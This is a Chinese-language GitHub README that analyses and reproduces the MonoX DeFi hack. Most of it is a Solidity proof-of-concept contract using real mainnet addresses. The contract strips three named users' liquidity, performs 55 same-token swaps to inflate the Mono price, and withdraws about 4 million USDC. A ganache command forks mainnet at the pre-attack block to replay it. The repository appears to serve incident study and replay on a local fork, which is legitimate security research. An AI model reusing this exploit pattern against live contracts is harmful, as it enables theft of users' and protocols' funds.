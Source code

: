 # MonoX_Vul
MonoX被攻击事件的分析和复现

[攻击事件的分析](https://github.com/W2Ning/MonoX_Vul_/blob/main/MonoX%E6%94%BB%E5%87%BB%E4%BA%8B%E4%BB%B6%E5%88%86%E6%9E%90.md)


[完整攻击代码](https://github.com/W2Ning/MonoX_Vul_/blob/main/poc.sol)

### 核心攻击代码

* 注意下面的代码缺少Interface, 不能直接复制
* 所有的攻击步骤都在`constructor()`中实现, 也就是说当合约部署完成,攻击也已经完成

```js
contract POC{

    address WETH9_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    address Mono_Token_Address = 0x2920f7d6134f4669343e70122cA9b8f19Ef8fa5D;

    address MonoXPool_Address = 0x59653E37F8c491C3Be36e5DD4D503Ca32B5ab2f4;

    address Monoswap_address =  0xC36a7887786389405EA8DA0B87602Ae3902B88A1;
    // 无辜的大户地址1
    address Innocent_user_1 = 0x7B9aa6ED8B514C86bA819B99897b69b608293fFC;
    // 无辜的大户地址2
    address Innocent_user_2 = 0x81D98c8fdA0410ee3e9D7586cB949cD19FA4cf38;
    // 无辜的大户地址3
    address Innocent_user_3 = 0xab5167e8cC36A3a91Fd2d75C6147140cd1837355;

    address USDC_Address =  0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;

    uint256 Amount_Of_MonoToken_On_XPool;

    uint256 public Amount_Of_USDC_On_XPool;
    
    uint256 public Amoount_Of_Mono_On_This; 


    constructor()  public payable{
        // 把MonoToken的全部额度授权给MonoSwap 
        MonoToken(Mono_Token_Address).approve(Monoswap_address,type(uint256).max);
        // 把0.1个ETH换成0.1个WETH
        WETH9(WETH9_Address).deposit{value:address(this).balance,gas:40000}();
        // 把0.1个WETH的额度授权给MonoSwap
        WETH9(WETH9_Address).approve(Monoswap_address,0.1 ether);
        // 用0.1个WETH在MonoSwap上购买MonoToken
        Monoswap(Monoswap_address).swapExactTokenForToken(WETH9_Address,Mono_Token_Address,0.1 ether,1,address(this),block.timestamp);
        // 把XPool中三个大户的流动性全部剔除
        RemoveLiquidity_From_3_Users();
        // 添加自己的流动性
        Monoswap(Monoswap_address).addLiquidity(Mono_Token_Address,196875656,address(this));
        // 用Mono换Mono 共55次
        Swap_Mono_for_Mono_55_Times();
        // 用极少量的Mono换到400万的USDC
        Swap_Mono_For_USDC();

    }


    function RemoveLiquidity_From_3_Users() internal{
        uint256 balance_Of_User1 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_1,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User1,Innocent_user_1,0,1);

        uint256 balance_Of_User2 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_2,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User2,Innocent_user_2,0,1);

        uint256 balance_Of_User3 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_3,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User3,Innocent_user_3,0,1);
    }

    function Swap_Mono_for_Mono_55_Times() internal{

        for(uint256 i=0;i < 55; i++){

            (,,,,,,Amount_Of_MonoToken_On_XPool,,) = Monoswap(Monoswap_address).pools(Mono_Token_Address);

            Monoswap(Monoswap_address).swapExactTokenForToken(Mono_Token_Address,Mono_Token_Address,Amount_Of_MonoToken_On_XPool-1,0,address(this),block.timestamp);
            
        }
    }

    function Swap_Mono_For_USDC() internal{

        (,,,,,,Amount_Of_USDC_On_XPool,,) = Monoswap(Monoswap_address).pools(USDC_Address);

        Amoount_Of_Mono_On_This = MonoToken(Mono_Token_Address).balanceOf(address(this));

        Monoswap(Monoswap_address).swapTokenForExactToken(Mono_Token_Address,USDC_Address,Amoount_Of_Mono_On_This,4000000000000,msg.sender,block.timestamp);
    }


    receive() payable external{}


    function onERC1155Received(address _operator, address _from, uint256 _id, uint256 _value, bytes calldata _data) external returns(bytes4){
        bytes4 a = 0xf23a6e61;
        return a;
    }
```

### 复现方法

* 主网上的攻击发生在高度为`13715026`的块上, 所以同样我们选前一个块去fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/Your_API_KEY@13715025   -l 4294967295
```

* 部署攻击合约 注意部署时要带上100个`Finney`, 也就是0.1个`ETH`

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E9%83%A8%E7%BD%B2%E6%94%BB%E5%87%BB%E5%90%88%E7%BA%A6.png)

* 攻击前的MetaMask钱包余额

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E6%94%BB%E5%87%BB%E5%89%8D%E7%9A%84MetaMask%E9%92%B1%E5%8C%85%E4%BD%99%E9%A2%9D.png)

* 攻击后的钱包余额

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E6%94%BB%E5%87%BB%E5%90%8E%E7%9A%84%E9%92%B1%E5%8C%85%E4%BD%99%E9%A2%9D.png)

